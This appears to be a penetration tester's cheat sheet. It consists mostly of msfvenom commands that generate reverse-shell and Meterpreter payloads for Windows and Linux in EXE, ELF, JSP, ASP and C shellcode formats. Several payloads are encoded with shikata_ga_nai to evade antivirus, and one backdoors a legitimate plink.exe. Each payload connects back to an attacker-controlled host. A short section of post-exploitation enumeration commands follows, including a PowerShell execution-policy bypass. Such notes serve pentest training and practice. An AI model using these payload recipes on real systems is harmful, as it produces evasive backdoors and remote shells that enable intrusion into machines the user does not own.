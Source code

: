 ```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$me LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x ./plink.exe -o plinkevil443.exe
```

Exit THREAD instead of a Process to leave a door open (example bind shell)

msfvenom -p linux/x86/meterpreter_reverse_tcp -f elf LHOST=$me LPORT=9835 > linuxmetrpr.elf

msfvenom -p linux/x86/shell_reverse_tcp -f elf LHOST=$me LPORT=443 > nonstaged.elf

msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf LHOST=$me LPORT=443 > metrev443.elf

msfvenom -p linux/x86/shell_reverse_tcp -f c -b "\x00\x0a\x0d" LHOST=$me LPORT=9874 EXITFUNC=thread

msfvenom -p windows/shell_reverse_tcp LHOST=$me LPORT=443 -f jsp > rev443.jsp

msfvenom -p windows/shell_reverse_tcp LHOST=$me LPORT=443 -f asp > shellrev443.asp

msfvenom -p windows/shell_reverse_tcp LHOST=$me LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shellrev443.exe

msfvenom -p windows/meterpreter/reverse_http LHOST=$me LPORT=80 -f exe -e x86/shikata_ga_nai -i 14 -o metrevhttp80.exe

msfvenom -p windows/meterpreter/reverse_tcp LHOST=$me LPORT=53 -f exe -e x86/shikata_ga_nai -i 9 -o metrev53.exe

***

## Post Exploitation and Internal Enumeration

### POSH For PenTesters (Notes From PenTester Academy)

Enumerate HotFixes

```powershell
Get-HotFixes
```

### WINDOWS COMMAND LINE STUFF

[GREAT Source for WMIC Commands!](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4)

Show networked drives

```cmd
net share
```

Execute PoSh Script from Windows Command Line

```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

c:\windows\system32\cmd.exe

netstat -ano

tasklist /svc
